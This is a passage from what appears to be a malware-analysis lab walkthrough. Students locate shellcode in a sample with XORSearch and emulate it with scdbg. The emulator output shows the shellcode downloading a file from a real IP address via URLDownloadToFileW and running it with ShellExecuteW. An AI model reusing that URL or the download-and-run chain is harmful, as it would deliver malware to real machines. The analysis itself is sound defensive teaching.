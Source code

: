 ```cmd
XORSearch.exe -W C:\Temp\academy-student.sc
```

```
C:\Tools\Maldoc\Office\Tools\DidierStevensSuite>XORSearch.exe -W C:\Temp\academy-student.sc

Found XOR 00 position 00000946: GetEIP method 3 E9A0010000
Found XOR 00 position 0000001F: OLE file magic number D0CF11E0
Found ROT 25 position 0000001F: OLE file magic number D0CF11E0
Found ROT 24 position 0000001F: OLE file magic number D0CF11E0
Found ROT 23 position 0000001F: OLE file magic number D0CF11E0
Found ROT 22 position 0000001F: OLE file magic number D0CF11E0

<SNIP>
```

Subsequently, students will use the `scdbg.exe` shellcode emulator using the found offset to output the behavior of the shellcode, finding the name of the Visual Basic Script in the `URLDownloadToFileW` function call:

Code: cmd

```cmd
cd C:\Tools\MalDoc\Office\Tools\scdbg\
scdbg.exe /f C:\Temp\academy-student.sc /foff 946
```

```
C:\Tools\Maldoc\Office\Tools\DidierStevensSuite>cd C:\Tools\MalDoc\Office\Tools\scdbg\

C:\Tools\Maldoc\Office\Tools\scdbg>scdbg.exe /f C:\Temp\academy-student.sc /foff 946

Loaded 1027 bytes from file C:\Temp\academy-student.sc
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 946
401946  E9A0010000                      jmp 0x401aeb  vv
40194b  A7                              cmpsd
40194c  40                              inc eax
40194d  A022F9D0F0                      mov al,[0xf0d0f922]
401952  95                              xchg eax,ebp

401d21  GetProcAddress(ExpandEnvironmentStringsW)
401d72  ExpandEnvironmentStringsW(%APPDATA%\{hidden}, dst=12fbd8, sz=104)
401d87  LoadLibraryW(UrlMon)
401da2  GetProcAddress(URLDownloadToFileW)
401e14  URLDownloadToFileW(http://147.185.243.107/45700/beautifulglobe.jpg, C:\Users\Administrator\AppData\Roaming\{hidden})
401e2b  LoadLibraryW(shell32)
401e41  GetProcAddress(ShellExecuteW)
401e50  unhooked call to shell32.ShellExecuteW  step=42944

Stepcount 42944
```
